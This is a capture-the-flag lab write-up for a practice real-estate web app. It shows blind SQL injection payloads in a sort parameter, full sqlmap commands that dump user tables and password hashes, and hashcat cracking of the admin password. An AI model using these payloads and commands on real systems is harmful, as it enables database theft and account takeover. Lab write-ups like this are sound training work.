










# Parcel

Date: April 2026

Difficulty: <font color='green'>Easy</font>

Category: **Web**

## Description of the lab
"Parcel is a residential real estate portal with more going on under the hood than it appears."

A great playground for learning and experimenting with niche SQL injection vulnerabilities, often combined with privilege escalation techniques.

It can be played [here](https://webverselabs-pro.com/labs/parcel).

## Strategy

The search functionality was vulnerable to blind SQL injection, allowing us to extract sensitive data from the underlying database, including usernames and password hashes. We eventually identified a privileged account, cracked its password, and leveraged it to escalate privileges, resulting in a full compromise of the application.

## Enumeration

We performed fuzzing against the URL `http://app.gridmark.io` from an unauthenticated perspective using the `ffuf` tool and the `common.txt` Seclists wordlist. As a result, several endpoints were identified:

```
$ ffuf -u "http://app.gridmark.io/FUZZ" -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[...]
account                 [Status: 302, Size: 271, Words: 18, Lines: 6, Duration: 394ms]
admin                   [Status: 302, Size: 267, Words: 18, Lines: 6, Duration: 405ms]
listings                [Status: 200, Size: 21409, Words: 7241, Lines: 517, Duration: 801ms]
login                   [Status: 200, Size: 2817, Words: 799, Lines: 90, Duration: 890ms]
logout                  [Status: 302, Size: 189, Words: 18, Lines: 6, Duration: 698ms]
market                  [Status: 200, Size: 12356, Words: 2283, Lines: 372, Duration: 703ms]
register                [Status: 200, Size: 3058, Words: 819, Lines: 91, Duration: 405ms]
saved                   [Status: 302, Size: 267, Words: 18, Lines: 6, Duration: 602ms]
search                  [Status: 200, Size: 15029, Words: 3204, Lines: 344, Duration: 790ms]
```

We registered a new account in application and tried to access the `/admin` with our authenticated user. However, we got a Forbidden response, indicating that the endpoint was valid but access was restricted to potentially higher-privileged users.



We pointed out a few observations:
- an HTTP 500 error occurred when an invalid query parameter value was set (for example by specifying a string value in `bedrooms`)
- the `sort` parameter did not appeared by default, and was only set after selecting the filter





We explored other functionalities within the web application but did not identify any additional attack vectors requiring deeper analysis.

## Exploitation

### 1. Understanding the blind SQL injection

We enumerated valid values for the `sort` parameter, identifying options such as `price`, `bedrooms` and `bathrooms`.

When we injected the following payload `bathrooms asc limit 2 -- -`, the application returned only two results:

`http://app.gridmark.io/search?type=house&bedrooms=&sort=bathrooms%20asc%20limit%202%20--%20-`



This means that the application is using our injected value as part of a SQL query.

We could also identify that the application query is returning a number of 14 columns, by using the payload `14 asc limit 1 -- -`:



We observed different behavior when an invalid column index was supplied via the payload `15 asc limit 1 -- -`. Rather than returning an error, the application defaulted to returning all results for the selected `type` value:



Additionally, we observed an interesting behavior when supplying these two payloads:

* `sort=price LIMIT (CASE WHEN 1=1 THEN 1 ELSE 0 END)--`
* `sort=price LIMIT (CASE WHEN 1=3 THEN 1 ELSE 0 END)--`

In the first case, the CASE expression evaluated the specified `1=1` condition, resulting in the `sort` parameter value being set to `price LIMIT 1`. In contrast, when the condition `1=3` was evaluated, the `sort` parameter resolved to `price LIMIT 0`. This behavior confirmed a reliable boolean-based SQL injection, where the number of returned rows could be used as an effective oracle:





We discovered that the underlying database was sqlite when injecting the following payload `sort=price LIMIT (CASE WHEN sqlite_version() LIKE '3%' THEN 1 ELSE 0 END)--`

### 2. Leveraging the blind SQL injection with sqlmap

sqlmap did not detect the SQL Injection by default, even with higher `--risk` and `--level` values. However, we determined that more precise configuration was required, specifically the `--prefix`, `--suffix` and `--string` options:

```
$ sqlmap -u "http://app.gridmark.io/search?q=&type=house&type=townhouse&min_price=&max_price=&bedrooms=1&sort=" -p sort --dbms=sqlite --technique=B --prefix="price LIMIT (CASE WHEN " --suffix=" THEN 1 ELSE 0 END)-- -" --level=3 --risk=2 --string="1 result found"

[...]
[19:39:02] [INFO] GET parameter 'sort' appears to be 'Boolean-based blind - Parameter replace (CASE)' injectable 
[19:39:02] [INFO] checking if the injection point on GET parameter 'sort' is a false positive
GET parameter 'sort' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 31 HTTP(s) requests:
---
Parameter: sort (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (CASE)
    Payload: q=&type=house&type=townhouse&min_price=&max_price=&bedrooms=1&sort=price LIMIT (CASE WHEN  (CASE WHEN 1835=1835 THEN 1835 ELSE NULL END) THEN 1 ELSE 0 END)-- -
---
[19:39:18] [INFO] testing SQLite
[19:39:18] [INFO] confirming SQLite
[19:39:19] [INFO] actively fingerprinting SQLite
[19:39:20] [INFO] the back-end DBMS is SQLite
web application technology: Nginx 1.29.8
back-end DBMS: SQLite
[...]
```

As shown above, sqlmap detected the SQL injection vulnerability and titled it as "Boolean-based blind - Parameter (CASE)". Also, the vulnerability was exploitable without authentication.

We then enumerated all tables:

```
$ sqlmap -u "http://app.gridmark.io/search?q=&type=house&type=townhouse&min_price=&max_price=&bedrooms=1&sort=" -p sort --dbms=sqlite --technique=B --prefix="price LIMIT (CASE WHEN " --suffix=" THEN 1 ELSE 0 END)-- -" --level=3 --risk=2 --string="1 result found" --tables
[...]
[19:47:33] [INFO] retrieved: 10
[19:47:40] [INFO] retrieved: users
[19:47:58] [INFO] retrieved: sqlite_sequence
[19:48:53] [INFO] retrieved: listings
[19:49:23] [INFO] retrieved: favourite_list
[19:50:15] [INFO] retrieved: favourite
[19:50:23] [INFO] retrieved: saved_search
[19:51:08] [INFO] retrieved: platform_config
[19:52:03] [INFO] retrieved: feature_flag
[19:52:49] [INFO] retrieved: activity_log
[19:53:34] [INFO] retrieved: contact_requests
<current>
[10 tables]
+------------------+
| activity_log     |
| contact_requests |
| favourite        |
| favourite_list   |
| feature_flag     |
| listings         |
| platform_config  |
| saved_search     |
| sqlite_sequence  |
| users            |
+------------------+
```

We also dumped all information from the users table:

```
sqlmap -u "http://app.gridmark.io/search?q=&type=house&type=townhouse&min_price=&max_price=&bedrooms=1&sort=" -p sort --dbms=sqlite --technique=B --prefix="price LIMIT (CASE WHEN " --suffix=" THEN 1 ELSE 0 END)-- -" --level=3 --risk=2 --string="1 result found" -T users --dump --threads 10

[...]

Database: <current>
Table: users
[12 entries]
+----+-------+-------------------------+---------------------------------------------------------------------------------------------------+-------------+------------------+---------------+---------------------+
| id | role  | email                   | password                                                                                          | username    | full_name        | last_login_at | registered_at       |
+----+-------+-------------------------+---------------------------------------------------------------------------------------------------+-------------+------------------+---------------+---------------------+
| 4  | admin | a.okafor@gridmark.io    | 364fef0fc441a9a68b99d55c69913fe04228d7d60fb6a9130b4d28dcaafb4903:086dce203e5fad3ebf18159dd5ab59fe | a.okafor    | Michael Chen     | NULL          | 2024-01-15 09:00:00 |
| 11 | user  | b.osei@gridmark.io      | 8c4645ceb8fb3085c106d67bf39ed3db97bc8f62776ffde4243f5868cea447a5:c3e373059e47fc923ed7604760b3b73d | b.osei      | Sunita Patel     | NULL          | 2024-02-10 14:30:00 |
| 12 | user  | c.ali@gridmark.io       | 8ede339c0e57f18429705b3349d901cc9cefd357ea0c474b9b114a4090d07e03:63c84c85be270629ed6a490ae6479f03 | c.ali       | Javier Rodriguez | NULL          | 2024-03-05 11:15:00 |
| 8  | user  | d.kowalski@gridmark.io  | 1f007c02827d7cc15830d93812dcd1e39cdc950f76250ce700d7d263fdae2f1d:67ef2fe0a983cc0fc03786288083e0ec | d.kowalski  | Amara Okafor     | NULL          | 2024-04-20 16:45:00 |
| 7  | user  | f.ibrahim@gridmark.io   | 656956f68046b6979defcdf1d5ac786719d44d04233534cb4557f7e749570fdf:2da53c6e93aad3849efd50662573c0f8 | f.ibrahim   | Thanh Nguyen     | NULL          | 2024-05-12 08:20:00 |
| 3  | user  | j.rodriguez@gridmark.io | 794bed945450f81b604646a5df96ca039d835294a5ab05a8bf4c521f97bf8dd1:161934074360a4114cbd468bd45a2e8b | j.rodriguez | Lars Johansson   | NULL          | 2024-06-08 13:00:00 |
| 6  | user  | l.johansson@gridmark.io | b3921b4bdd1c35347942c1cc79881f6ac13e7c3e3ff6eaccfcdb5c69681111b6:bb8f9bb6f30621044dba3d9d1fec1c6e | l.johansson | Fatima Ibrahim   | NULL          | 2024-07-14 10:30:00 |
| 1  | user  | m.chen@gridmark.io      | 41fc82e7deb085ab9344bc97916ae1788e5537296a0a92850908271d836b1336:96caa4a425202dc10f62890619a301f0 | m.chen      | Dorota Kowalski  | NULL          | 2024-08-22 15:45:00 |
| 10 | user  | n.kim@gridmark.io       | ac0528f0f02db2b6cfbdab34e3a7e1f6a5844faff90cf91c6396637ff9bc00d2:270967abc73bcdb6635b41b566a7ce99 | n.kim       | Rafael Ferreira  | NULL          | 2024-09-18 09:15:00 |
| 9  | user  | r.ferreira@gridmark.io  | 856c50c6d0d533b4175e1f13c5ba4cdacc2d7aa41f69a6fed6d716b23e23c010:6f749174110be0cbdded6d63702b0bc3 | r.ferreira  | Nari Kim         | NULL          | 2024-10-05 12:00:00 |
| 2  | user  | s.patel@gridmark.io     | e5346997560722478a118bd08c86a0b14e59082011ab18ad56e3932aa0fb5ebe:6dcf34604e181b909cbd5a25daba72e8 | s.patel     | Boateng Osei     | NULL          | 2024-11-11 17:30:00 |
| 5  | user  | t.nguyen@gridmark.io    | ee6246e9036f5199cabe4ee4e850594c726801a91a7fa5f1e281afbdfdd2b557:da2c365a8b22cc7bc6ded13dbaa6f495 | t.nguyen    | Charlotte Ali    | NULL          | 2024-12-03 14:00:00 |
+----+-------+-------------------------+---------------------------------------------------------------------------------------------------+-------------+------------------+---------------+-------------------
```

As we later realized, sqlmap displayed an incorrect email address for the user with the admin role. This behavior is likely attributable to the use of concurrent threads.

### 3. Gaining access to the application as a privileged-user

We attempted to crack the password hash for the user with `admin` role using hashcat. The output of the `hashid` command suggested that the hash was likely SHA-256.  

```
$ hashid 364fef0fc441a9a68b99d55c69913fe04228d7d60fb6a9130b4d28dcaafb4903
Analyzing '364fef0fc441a9a68b99d55c69913fe04228d7d60fb6a9130b4d28dcaafb4903'
[+] Snefru-256 
[+] SHA-256 
[+] RIPEMD-256 
[+] Haval-256 
[+] GOST R 34.11-94 
[+] GOST CryptoPro S-Box 
[+] SHA3-256 
[+] Skein-256 
[+] Skein-512(256) 
```

We then confirmed that by inspecting hashcat example hashes:

```
$ hashcat --example-hashes | grep -i sha256 -A 10 -B 10     
[...]
Hash mode #1410
  Name................: sha256($pass.$salt)
  Category............: Raw Hash salted and/or iterated
  Slow.Hash...........: No
  Password.Len.Min....: 0
  Password.Len.Max....: 256
  Salt.Type...........: Generic
  Salt.Len.Min........: 0
  Salt.Len.Max........: 256
  Kernel.Type(s)......: pure, optimized
  Example.Hash.Format.: plain
  Example.Hash........: 5bb7456f43e3610363f68ad6de82b8b96f3fc9ad24e9d1f1f8d8bd89638db7c0:12480864321
  Example.Pass........: hashcat
  Benchmark.Mask......: ?b?b?b?b?b?b?b
  Autodetect.Enabled..: Yes
  Self.Test.Enabled...: Yes
  Potfile.Enabled.....: Yes
  Custom.Plugin.......: No
  Plaintext.Encoding..: ASCII, HEX
[...]
```

We obtained the plain-text value of the hashed password using hashcat and `rockyou.txt` wordlist:

```
$ hashcat -m 1410 ./hashes.txt /usr/share/wordlists/rockyou.txt
[...]
364fef0fc441a9a68b99d55c69913fe04228d7d60fb6a9130b4d28dcaafb4903:086dce203e5fad3ebf18159dd5ab59fe:realestate1
```

The only missing piece was the email address for the user. We executed sqlmap one more time by narrowing down the where condition:

```
$ sqlmap -u "http://app.gridmark.io/search?q=&type=house&type=townhouse&min_price=&max_price=&bedrooms=1&sort=" -p sort --dbms=sqlite --technique=B --prefix="price LIMIT (CASE WHEN " --suffix=" THEN 1 ELSE 0 END)-- -" --level=3 --risk=2 --string="1 result found" -T users --dump --threads 10 --where="role = 'admin'"
[...]
Database: <current>
Table: users
[1 entry]
+----+-------+--------------------+---------------------------------------------------------------------------------------------------+----------+--------------+---------------+---------------------+
| id | role  | email              | password                                                                                          | username | full_name    | last_login_at | registered_at       |
+----+-------+--------------------+---------------------------------------------------------------------------------------------------+----------+--------------+---------------+---------------------+
| 1  | admin | m.chen@gridmark.io | 364fef0fc441a9a68b99d55c69913fe04228d7d60fb6a9130b4d28dcaafb4903:086dce203e5fad3ebf18159dd5ab59fe | m.chen   | Michael Chen | NULL          | 2024-01-15 09:00:00 |
+----+-------+--------------------+---------------------------------------------------------------------------------------------------+----------+--------------+---------------+---------------------+
```

We successfully logged in as `m.chen@gridmark.io`:



Finally, by accessing the `/admin`endpoint, we found the flag.



### 4. Alternative way of getting the flag

We identified two different ways to get the flag:
* Obtain the password for a privileged-user within the application and access the `/admin`endpoint (**already seen**)
* Use the SQL Injection vulnerability to extract information from the `platform_config` table.

By using the SQL Injection vulnerability, we extracted information from the `platform_config` table, containing the flag:

```
$ sqlmap -u "http://app.gridmark.io/search?q=&type=house&type=townhouse&min_price=&max_price=&bedrooms=1&sort=" -p sort --dbms=sqlite --technique=B --prefix="price LIMIT (CASE WHEN " --suffix=" THEN 1 ELSE 0 END)-- -" --level=3 --risk=2 --string="1 result found" -T platform_config --dump --threads 10

[...]

Parameter: sort (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (CASE)
    Payload: q=&type=house&type=townhouse&min_price=&max_price=&bedrooms=1&sort=price LIMIT (CASE WHEN  (CASE WHEN 6916=6916 THEN 6916 ELSE NULL END) THEN 1 ELSE 0 END)-- -
---

[...]

Database: <current>
Table: platform_config
[9 entries]
+----+--------------------------+---------------------------------------+---------------------+--------------------------------------------------+
| id | key                      | value                                 | updated_at          | description                                      |
+----+--------------------------+---------------------------------------+---------------------+--------------------------------------------------+
| 7  | ADMIN_SESSION_TIMEOUT    | 10                                    | 2026-01-10          | Maximum database connection pool size            |
| 1  | DB_MAX_CONNECTIONS       | noreply@gridmark.io                   | 2026-01-10          | Outbound email sender address                    |
| 2  | EMAIL_FROM               | 20                                    | 2026-02-01          | Number of listings per search results page       |
| 3  | LISTING_RESULTS_PER_PAGE | 300                                   | 2026-02-15          | Search results cache TTL in seconds              |
| 5  | MAINTENANCE_MODE         | false                                 | 2026-03-01          | Enable maintenance mode (shows banner)           |
| 6  | MAX_SAVED_SEARCHES       | 10                                    | 2026-01-10          | Maximum saved searches per user account          |
| 9  | PLATFORM_API_LICENSE_KEY | 3600                                  | 2026-01-10          | Admin session timeout in seconds                 |
| 8  | REGISTRATION_ENABLED     | true                                  | 2026-03-20          | Allow new user registrations                     |
| 4  | SEARCH_CACHE_TTL         | WEBVERSE{[REDACTED]} | 2026-04-27 22:10:45 | Platform API License Key for GridMark Enterprise |
+----+--------------------------+---------------------------------------+---------------------+--------------------------------------------------+
```

From the results above, one detail that stood out was that the flag value was associated with the key `SEARCH_CACHE_TTL`, which seemed unusual. This behavior appeared to be related to sqlmap’s use of multiple threads.